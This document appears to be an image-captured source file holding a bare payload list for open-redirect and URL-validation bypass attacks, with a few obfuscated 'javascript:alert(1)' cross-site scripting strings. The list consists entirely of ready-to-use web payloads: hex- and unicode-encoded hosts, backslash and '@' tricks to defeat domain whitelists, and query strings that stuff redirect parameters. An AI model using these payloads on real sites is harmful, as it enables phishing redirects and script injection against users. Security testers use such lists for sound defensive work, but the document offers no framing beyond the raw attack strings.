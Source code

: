 /ーgoogle.com
/ｰgoogle.com
%68%74%74%70%3a%2f%2f%67%6f%6f%67%6c%65%2e%63%6f%6d
http://%67%6f%6f%67%6c%65%2e%63%6f%6d
<>javascript:alert(1);
<>//google.com
//google.com\@www.whitelisteddomain.tld
https://:@google.com\@www.whitelisteddomain.tld
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
\u006A\u0061\u0076\u0061\u0073\u0063\u0072\u0069\u0070\u0074\u003aalert(1)
ja\nva\tscript\r:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
\152\141\166\141\163\143\162\151\160\164\072alert(1)
http://google.com:80#@www.whitelisteddomain.tld/
http://google.com:80?@www.whitelisteddomain.tld/
///example.com/%2e%2e
///example.com/%2e%2e%2f
///example.com/%2f%2e%2e
///example.com/%2f..
///example.com//
//example.com
//example.com/
//example.com/%2e%2e
//example.com/%2e%2e%2f
//example.com/%2f%2e%2e
//example.com/%2f..
//example.com//
//google%00.com
//google%E3%80%82com
//https:///example.com/%2e%2e
//https://example.com/%2e%2e%2f
//https://example.com//
/<>//example.com
/?url=//example.com&next=//example.com&redirect=//example.com&redir=//example.com&rurl=//example.com&redirect_uri=//example.com
/?url=/\/example.com&next=/\/example.com&redirect=/\/example.com&redirect_uri=/\/example.com
/?url=Https://example.com&next=Https://example.com&redirect=Https://example.com&redir=Https://example.com&rurl=Https://example.com&redirect_uri=Https://example.com
/\/\/example.com/
/\/example.com/
/example.com/%2f%2e%2e
/http://%67%6f%6f%67%6c%65%2e%63%6f%6d
/http://example.com
/http:/example.com
/https:/%5cexample.com/
/https://%09/example.com
/https://%5cexample.com
/https:///example.com/%2e%2e
/https:///example.com/%2f%2e%2e
/https://example.com
/https://example.com/
/https://example.com/%2e%2e
/https://example.com/%2e%2e%2f
/https://example.com/%2f%2e%2e
/https://example.com/%2f..
/https://example.com//
/https:example.com
/redirect?url=//example.com&next=//example.com&redirect=//example.com&redir=//example.com&rurl=//example.com&redirect_uri=//example.com
/redirect?url=/\/example.com&next=/\/example.com&redirect=/\/example.com&redir=/\/example.com&rurl=/\/example.com&redirect_uri=/\/example.com
/redirect?url=Https://example.com&next=Https://example.com&redirect=Https://example.com&redir=Https://example.com&rurl=Https://example.com&redirect_uri=Https://example.com
